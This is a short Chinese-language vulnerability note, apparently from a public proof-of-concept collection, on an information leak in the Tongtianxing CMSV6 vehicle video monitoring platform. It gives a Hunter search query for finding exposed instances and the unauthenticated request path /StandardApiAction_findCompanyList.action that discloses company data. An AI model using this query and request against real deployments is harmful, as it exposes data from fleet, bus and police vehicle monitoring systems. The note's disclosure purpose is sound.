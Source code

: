# 通天星CMSV6车载视频监控平台 StandardApiAction_findCompanyList存在信息泄露漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台StandardApiAction_findCompanyList存在信息泄露漏洞

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/GQkoOthvOMVbREfc/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-215897.png)

# 四、漏洞复现
```plain
/StandardApiAction_findCompanyList.action
```

![1706970512382-ec095a83-9453-42a2-9e8c-8e93eb7525bf.png](./img/GQkoOthvOMVbREfc/1706970512382-ec095a83-9453-42a2-9e8c-8e93eb7525bf-011750.png)



> 更新: 2024-12-28 13:05:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/gsl14di27m85usc0>